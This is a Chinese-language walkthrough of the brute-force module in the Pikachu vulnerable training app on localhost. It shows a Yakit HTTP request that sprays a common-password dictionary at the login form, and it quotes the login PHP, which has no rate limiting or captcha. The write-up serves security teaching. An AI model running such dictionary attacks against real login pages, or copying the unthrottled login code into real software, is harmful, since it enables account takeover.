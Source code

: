 如果一个 Web 应用系统采用了比较弱的认证安全策略(被暴力破解成功的可能性较高)，那暴力破解漏洞带来的危害一定会远超预期

### 基于表单的暴力破解

#### 漏洞利用

访问该页面可以发现其为表单登陆，没有验证码或其它访问控制措施，直接抓包并上字典爆破即可

爆破报文 (基于 Yakit )

```plaintext
POST /pikachu/vul/burteforce/bf_form.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/pikachu/vul/burteforce/bf_form.php
Cookie: _ga_RTMV0WQ0E9=GS1.1.1706795665.1.1.1706795700.0.0.0; _ga=GA1.1.1296425997.1706795666; security=impossible; PHPSESSID=du3liq1mv90deoasfj0od4b0mo
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
DNT: 1
Sec-GPC: 1
Pragma: no-cache
Cache-Control: no-cache

username=admin&password={{payload(2020-200_most_used_passwords)}}&submit=Login
```

发现 login success

#### 漏洞代码解读

```PHP
// 纯粹的用户登录业务逻辑，没有任何访问控制措施

if(isset($_POST['submit']) && $_POST['username'] && $_POST['password']){

    $username = $_POST['username'];
    $password = $_POST['password'];
    $sql = "select * from users where username=? and password=md5(?)";
    $line_pre = $link->prepare($sql);


    $line_pre->bind_param('ss',$username,$password);

    if($line_pre->execute()){
        $line_pre->store_result();
        if($line_pre->num_rows>0){
            $html.= '<p> login success</p>';

        } else{
            $html.= '<p> username or password is not exists～</p>';
        }

    } else{
        $html.= '<p>执行错误:'.$line_pre->errno.'错误信息:'.$line_pre->error.'</p>';
    }
```